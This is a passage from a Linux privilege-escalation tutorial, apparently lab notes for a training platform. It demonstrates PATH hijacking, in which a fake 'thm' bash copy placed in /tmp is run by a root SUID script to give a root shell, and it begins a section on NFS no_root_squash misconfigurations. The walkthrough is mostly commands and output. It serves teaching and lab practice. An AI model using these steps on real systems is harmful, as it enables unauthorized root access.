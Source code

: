 ```bash
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

The “grep -v proc” is to get rid of the many results related to running processes. Unfortunately, subfolders under */usr are not writable*

The folder that will be easier to write to is probably `/tmp`. At this point because `/tmp `is not present in PATH so *we will need to add it*. As we can see below, the “`export PATH=/tmp:$PATH`” command accomplishes this.

At this point the path script will also look under the /tmp folder for an executable named “thm”.

Creating this command is fairly easy by copying `/bin/bash` as “thm” under the /tmp folder.

```bash
alperatargetsystem:/$ cd /tmp 
alperatargetsystem:/tmp$ echo "/bin/bash" > thm 
alperatargetsystem:/tmp$ chmod 777 thm
alperatargetsystem:/tmp$ ls -1 
thm -rwxrwxrwx 1 alper alper 10 Jun 17 14:36 thm
```

We have given executable rights to our copy of /bin/bash, please note that at this point it will run with our user’s right. What makes a privilege escalation possible within this context is that the path script runs with root privileges.

```bash
alperatargetsystem:~/Desktop$ whoami
alper
alperatargetsystem:~/Desktop$ id
uid=1000(alper) gid=1000(alper) groups=1000(alper), 4(adm),24(cdrom),27 (sudo),30(dip),46(plugdev),120(padmin), 131(1xd), 132(sambashare) alperatargetsystem:~/Desktop$ ./path
rootatargetsystem:~/Desktop# whoami
root
rootatargetsystem:~/Desktop# id
uid=0(root) gid=0(root) groups=0(root), 4(adm),24(cdrom),27 (sudo),30(dip),46(plugdev),120(padmin), 131(1xd), 132(sambashare), 1000(alper)
root@targetsystem: ~/Desktop#
```

### NFS

NFS (Network File Sharing) configuration is kept in the `/etc/exports` file. This file is created during the NFS server installation and can usually be read by users.

```bash
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```
